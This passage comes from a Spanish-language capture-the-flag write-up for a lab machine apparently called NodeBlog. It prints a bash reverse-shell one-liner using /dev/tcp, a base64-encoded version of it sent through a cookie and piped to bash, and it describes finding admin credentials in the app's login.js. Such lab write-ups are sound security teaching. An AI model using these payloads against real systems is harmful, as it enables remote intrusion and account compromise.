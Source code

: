 Para establecer la reverse shell, podemos usar la herramienta **netcat** con el comando **nc** llegado el caso que está se encuentre instalada o emplear un comando de **bash** directamente, como el siguiente

```bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

Para evitar problemas con algún carácter especial del anterior comando, podemos leer este desde un fichero y convertirlo a **base64**.

```bash
cat revshell | base64 -w 0; echo
```

El payload en la cookie debe tener un formato que, tras ser decodificado permita su ejecución por **bash**.

```bash
echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkyLzQ0NDQgMD4mMQo= | base64 -d | bash
```

Finalmente se ejecuta la revshell y obtenemos acceso como un usuario no privilegiado.

<div style="text-align: center;">
  <img src="/assets/images/NodeBlog/admin.jpg" alt="editorial" width="1000" oncontextmenu="return false;">
</div>
<br>

------------------------------------------------------------------------------------------------------------

# Escalada:

Al ingresar noto que no se cuenta con acceso al directorio del usuario **admin** y realizando una enumeracion básica no encontré nada relevante hasta que decido enumerar el directorio donde se encuentra desplegada la aplicación web **/opt/blog**, en el directorio **routes** al realizar cat al fichero **login.js** encontramos las credenciales de login del usuario **admin**.

<div style="text-align: center;">
  <img src="/assets/images/NodeBlog/adminCredentials.jpg" alt="editorial" width="1000" oncontextmenu="return false;">
</div>
<br>
